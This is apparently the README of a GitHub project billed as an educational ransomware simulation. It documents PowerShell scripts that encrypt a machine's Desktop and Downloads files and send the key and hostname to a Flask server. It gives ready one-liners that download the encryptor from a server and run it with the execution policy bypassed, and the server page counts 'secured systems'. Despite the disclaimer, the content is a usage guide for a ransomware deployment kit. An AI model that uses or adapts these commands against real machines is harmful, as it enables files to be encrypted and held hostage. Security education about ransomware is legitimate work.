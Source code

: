 # **Ransomware Simulation Scripts**

**⚠️ IMPORTANT NOTICE: THIS PROJECT IS PURELY FOR EDUCATIONAL PURPOSES ONLY. IT SIMULATES A RANSOMWARE-LIKE ENCRYPTION AND DECRYPTION PROCESS TO HELP USERS UNDERSTAND ENCRYPTION, DECRYPTION, AND SECURE COMMUNICATION. DO NOT USE THIS PROJECT MALICIOUSLY OR WITHOUT PROPER AUTHORIZATION. THE AUTHORS ARE NOT RESPONSIBLE FOR ANY MISUSE OF THIS SOFTWARE. ⚠️**


> this only works on Windows Machine. traffic is unencrypted.
---

## **Overview**

The project consists of the following components:

1. **`encryptor.ps1`**:
   - Encrypts files in specified folders (e.g., Desktop, Downloads).
   - Renames encrypted files with a `.secured` extension.
   - Sends the encryption key and system hostname to the server.

2. **`decryptor.ps1`**:
   - Decrypts files with the `.secured` extension.
   - Restores the original file names.

3. **`server.py`**:
   - Acts as a central server to store encryption keys and hostnames.
   - Serves the `encryptor.ps1` and `decryptor.ps1` scripts via HTTP.
   - Displays a webpage with one-liner commands for encryption and decryption.

4. **`codegen.py`**:
   - Dynamically generates the `encryptor.ps1` and `decryptor.ps1` scripts.
   - Embeds the server's IP address into the scripts.

---

## **Prerequisites**

### **1. Python Environment**
- Install Python 3.6 or higher.
- Install required Python libraries:
  ```bash
  pip install flask
  ```

### **2. PowerShell**
- Ensure PowerShell is installed on the target machine.
- Run PowerShell as an Administrator to avoid permission issues.

### **3. Network Setup**
- Ensure the server machine and client machines are on the same network.
- Allow communication on the server's port (default: `8000`).

---

## **Setup Instructions**

### **Step 1: Generate Scripts**
Run the `codegen.py` script to generate the `encryptor.ps1` and `decryptor.ps1` scripts:
```bash
python codegen.py
```
- By default, the script detects the server's IP address automatically.
- Alternatively, specify the server's IP manually:
  ```bash
  python codegen.py --ip <SERVER_IP>
  ```

### **Step 2: Start the Server**
Run the `server.py` script to start the server:
```bash
python server.py
```
- The server will display its IP address and port (e.g., `http://192.168.0.104:8000`).
- Access the server's IP in a browser to view the webpage with one-liner commands.

### **Step 3: Deploy Scripts**
- Place the generated `encryptor.ps1` and `decryptor.ps1` scripts in the parent directory of the server script.
- Ensure the server can serve these files when accessed via HTTP.

---

## **Usage Instructions**

### **1. Encryption**
Run the `encryptor.ps1` script on the target machine:
```powershell
powershell -ExecutionPolicy Bypass -File .\encryptor.ps1
```
- The script will:
  - Encrypt files in the specified folders (e.g., Desktop, Downloads).
  - Rename encrypted files with a `.secured` extension.
  - Send the encryption key and system hostname to the server.

### **2. Decryption**
Run the `decryptor.ps1` script on the target machine:
```powershell
powershell -ExecutionPolicy Bypass -File .\decryptor.ps1
```
- The script will:
  - Decrypt files with the `.secured` extension.
  - Restore the original file names.

### **3. One-Liner Commands**
Access the server's IP in a browser (e.g., `http://192.168.0.104:8000`) to view one-liner commands for encryption and decryption.

#### Example One-Liner for Encryption:
```powershell
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://192.168.0.104:8000/script/encryptor.ps1 -OutFile encryptor.ps1; .\encryptor.ps1"
```

#### Example One-Liner for Decryption:
```powershell
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://192.168.0.104:8000/script/decryptor.ps1 -OutFile decryptor.ps1; .\decryptor.ps1"
```

---

## **Server Features**

### **1. Webpage**
When you access the server's IP in a browser, you will see:
- One-liner commands for encryption and decryption.
- Statistics on the number of secured systems.

### **2. Key Storage**
The server stores encryption keys and hostnames in a file named `encryption_keys.txt`.

### **3. File Serving**
The server serves the `encryptor.ps1` and `decryptor.ps1` scripts via HTTP.

---

## **Troubleshooting**

### **1. Script Fails to Run**
- Ensure PowerShell is running with elevated privileges (as Administrator).
- Check the `encryption_log.txt` file for detailed error messages.

### **2. Files Not Encrypted**
- Verify that the files are accessible and not locked by another process.
- Ensure the script skips already encrypted files (`.secured` extension).

### **3. Server Not Accessible**
- Check the server's IP address and port.
- Ensure the firewall allows incoming connections on port `8000`.

### **4. Missing Dependencies**
- Install any missing Python libraries using `pip install <library_name>`.

---

## **Disclaimer**

This project is intended for educational purposes only. It simulates a ransomware-like behavior to help users understand encryption, decryption, and secure communication. Do not use this project maliciously or without proper authorization. The authors are not responsible for any misuse of this software.

---

[![Youtube Video]()](https://youtu.be/R0nV2_K4ncE)

---

## **Contact**

For questions or feedback, please contact:
- X :[ x/anir0y](https://x.com/anir0y)
- GitHub: [github/anir0y](https://github.com/anir0y/)
